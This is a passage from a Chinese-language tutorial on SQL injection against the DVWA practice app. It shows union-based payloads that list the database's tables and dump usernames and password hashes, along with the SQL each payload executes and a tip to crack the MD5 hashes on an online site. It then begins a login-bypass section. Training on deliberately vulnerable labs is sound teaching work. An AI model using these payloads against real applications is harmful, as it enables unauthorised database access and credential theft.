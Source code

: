 实际执行的sql语句：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#'
```

通过上图返回信息，我们再获取到：

- `dvwa` 数据库有两个数据表，分别是 `guestbook` 和 `users`

> 获取用户名和密码

接下来尝试获取重量级的**用户名、密码**！

根据经验我们可以大胆猜测`users`表的字段为 `user` 和 `password`，所以在输入框中输入：`1' union select user,password from users#`进行查询：

![](\assets\images\2021\mysql\inject-7.png)

实际执行的Sql语句是：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#'
```

可以看到成功爆出了**用户名、密码**，密码通过猜测采用 md5 进行加密，可以直接到`www.cmd5.com`网站进行解密。

### 验证绕过

接下来我们再试试另一个利用 SQL 漏洞绕过登录验证的示例！

这是一个普通的登录页面，只要输入正确的用户名和密码就能登录成功。

![](\assets\images\2021\mysql\inject-8.png)
